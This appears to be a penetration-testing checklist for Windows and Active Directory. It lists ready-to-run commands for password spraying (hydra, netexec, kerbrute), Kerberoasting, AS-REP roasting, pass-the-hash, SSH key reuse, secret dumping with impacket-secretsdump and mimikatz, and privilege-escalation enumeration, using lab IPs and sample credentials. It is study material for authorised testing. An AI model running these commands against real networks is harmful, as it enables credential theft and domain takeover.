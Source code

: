 # Penetration Test Checklist

## Unauthenticated Recon - Domain

* [ ] [Create a target list](../../active-directory/password-spraying/creating-a-target-user-list.md).
* [ ] Check for [AS-REPRoastable](../../active-directory/attacking-active-directory-authentication/as-rep-roasting.md) & [Kerberoastable](../../active-directory/attacking-active-directory-authentication/kerberoasting.md) users.&#x20;
* [ ] Bruteforce kerberos users via [kerbrute](../../active-directory/password-spraying/brute-force-password-spraying-linux-tools.md).



***

## Initial Compromise of Network

* [ ] nmap scan of internal network
* [ ] smb shares
* [ ] Check for[ AS-REPRoast](../../active-directory/attacking-active-directory-authentication/as-rep-roasting.md) & [Kerberoastable](../../active-directory/attacking-active-directory-authentication/kerberoasting.md) users.&#x20;

## Windows Privilege Escalation

{% embed url="https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation" %}

***

## Harvested a New Credential&#x20;

<mark style="color:yellow;">**Make sure to test twice**</mark>. Once for domain and once for  "<mark style="color:yellow;">**--local-auth**</mark>" to test local user passwords.

### Spray Passwords

* ```shell-session
  $ hydra -l "yoshi" -p 'Mushroom!' -M ips.txt rdp
  ```
* ```shell-session
  $ netexec smb ips.txt -u users.txt -p passwords.txt 
  ```
* ```shell-session
  $ netexec winrm ips.txt -u users.txt -p passwords.txt
  ```
* <pre class="language-shell-session"><code class="lang-shell-session"><strong>$ netexec wmi ips.txt -u users.txt -p passwords.txt 
  </strong></code></pre>
* <pre class="language-shell-session"><code class="lang-shell-session"><strong>$ netexec mssql ips.txt -u users.txt -p passwords.txt -local-auth
  </strong></code></pre>

### Manual Spray (if above didn't recover anything).

* ```shell-session
  $ proxychains evil-winrm -i 10.10.93.154 -u Administrator -p "Passwords"
  ```
* ```shell-session
  $ proxychains xfreerdp /v:10.10.93.154 /u:Administrator /p:password
  ```



***

## Harvested Domain Credential

### Kerbrute

* ```shell-session
  $ proxychains kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
  ```

### Kerberoast

* ```shell-session
  $ proxychains impacket-GetUserSPNs -request -dc-ip 10.10.113.146 corp.com/web_svc
  ```

### ASREP Roast

* ```shell-session
  $ proxychains impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
  ```

***

## Harvest new Hash

* [ ] Check with crackstation
* ```shell-session
  $ NetExec rdp 192.168.215.175 -u users.txt -H hashes.txt
  ```

***

## Harvested a new Private Key

### Spray Intranet (.ssh)

If we have a shell on a box and notice a user has a private key in their home directory, we should test it against all computers with ssh open.

* ```shell-session
  victim@host$ ssh -i id_rsa mario@172.16.233.14
  ```

***

## Popped a new Shell

### Manual Enumeration

* [ ] [Check **ALL** privileges](../windows-privilege-escalation/escalating-privilege.md#insecure-privileges) "whoami /priv" for potential exploits
* [ ] Check for sensitive files
* [ ] Check for potential binary hijacking
* [ ] Check for scheduled tasks / services running under other users.



### Domain Connected User

#### Check ACL's/ACE's

* [ ] bloodhound / sharphound
* [ ] powerview

### PWNED Shell?- Dump Secrets!

* <pre class="language-shell"><code class="lang-shell"><strong>$ proxychains impacket-secretsdump -hashes ":e728ecbadfb02f51ce8eed753f3ff3fd" celia.almeda@10.10.85.142
  </strong></code></pre>
* <pre class="language-powershell"><code class="lang-powershell"><strong>PS> .\mimikatz.exe
  </strong></code></pre>

***

## Privilege Escalation - Windows

### Automated Enumeration

* <pre class="language-powershell"><code class="lang-powershell"><strong>PS> .\winPEASx64.exe
  </strong></code></pre>
* ```powershell
  PS> powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
  ```

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md" %}

### Manual Enumeration

* ```
  systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Network Card(s)" /C:"Hotfix(s)"
  ```
* ```
  whoami /priv
  ```
* ```
  net user <user>
  ```
* ```
  net localgroup administrators
  ```
* ```
  cmd.exe /c dir /a C:\
  ```
* ```
  ls "program files"
  ```
* ```
  netstat -nao
  ```
* ```
  .\SharpHound -c All --domain medtech.com --zipfilename MEDTECH.zip
  ```

***

## Active Directory Lateral Movement

* [ ] bloodhound / sharphound (Shortest path to high value targets)
* [ ] Certify / Certipy - Check for vulnerable ADCS's
* [ ] mimikatz
* [ ] netexec spray passwords & hashes
* [ ] NTLM Relay Attack
* [ ] Check for Service Accounts
* [ ] Kerberoast / AS-REPRoast













## Crying for help?

* [ ] Check [HackerRecipes](https://www.thehacker.recipes/ad/recon)

